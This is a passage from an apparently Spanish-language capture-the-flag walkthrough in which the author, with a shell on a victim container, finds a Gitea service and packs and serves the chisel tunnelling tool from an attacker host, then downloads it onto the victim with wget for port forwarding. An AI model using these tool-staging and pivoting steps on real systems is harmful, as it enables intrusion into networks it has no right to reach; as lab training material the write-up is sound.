 El puerto `3000` se ve interesante, vamos a ver que contiene:

```bash wrap=false
/ # wget http://172.17.0.1:3000/ -qO-    
...
		<div class="ui left">
			Powered by Gitea Version: 1.16.6 Page: <strong>16ms</strong> Template: <strong>8ms</strong>
		</div>
...
```

Vemos el servicio **Gitea**, vamos a hacer `port forwarding` con **chisel** para verlo mejor. Nos lo descargaremos y lo pasaremos a la máquina víctima:

```bash wrap=false title='Máquina atacante'
❯ mv /home/zelpro/Descargas/chisel_1.11.3_linux_amd64.gz chisel.gz
❯ gunzip chisel.gz
❯ ls
 chisel   pin_exploit.py
❯ chmod +x chisel
❯ upx chisel
                       Ultimate Packer for eXecutables
                          Copyright (C) 1996 - 2024
UPX 4.2.4       Markus Oberhumer, Laszlo Molnar & John Reiser    May 9th 2024

        File size         Ratio      Format      Name
   --------------------   ------   -----------   -----------
  10240184 ->   4021468   39.27%   linux/amd64   chisel                        

Packed 1 file.
❯ du
3936	.
❯ du -hc chisel
3,9M	chisel
3,9M	total
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```bash wrap=false title='Máquina víctima'
/ # ping -c 1 10.10.14.15
PING 10.10.14.15 (10.10.14.15): 56 data bytes
64 bytes from 10.10.14.15: seq=0 ttl=62 time=47.374 ms

--- 10.10.14.15 ping statistics ---
1 packets transmitted, 1 packets received, 0% packet loss
round-trip min/avg/max = 47.374/47.374/47.374 ms
/ # cd /tmp
/tmp # wget http://10.10.14.15/chisel
Connecting to 10.10.14.15 (10.10.14.15:80)
wget: server returned error: HTTP/1.1 404 NOT FOUND
/tmp # wget http://10.10.14.15:80/chisel    
Connecting to 10.10.14.15:80 (10.10.14.15:80)
wget: server returned error: HTTP/1.1 404 NOT FOUND
/tmp # wget http://10.10.14.15:8000/chisel
Connecting to 10.10.14.15:8000 (10.10.14.15:8000)
saving to 'chisel'
chisel                 4% |*                               |  196k  0:00:19 ETA
chisel                31% |**********                      | 1239k  0:00:04 ETA
chisel                31% |**********                      | 1239k  0:00:06 ETA
chisel                41% |*************                   | 1637k  0:00:05 ETA
chisel                52% |****************                | 2071k  0:00:04 ETA
chisel                73% |***********************         | 2892k  0:00:02 ETA
chisel                87% |***************************     | 3430k  0:00:01 ETA
chisel               100% |********************************| 3927k  0:00:00 ETA
```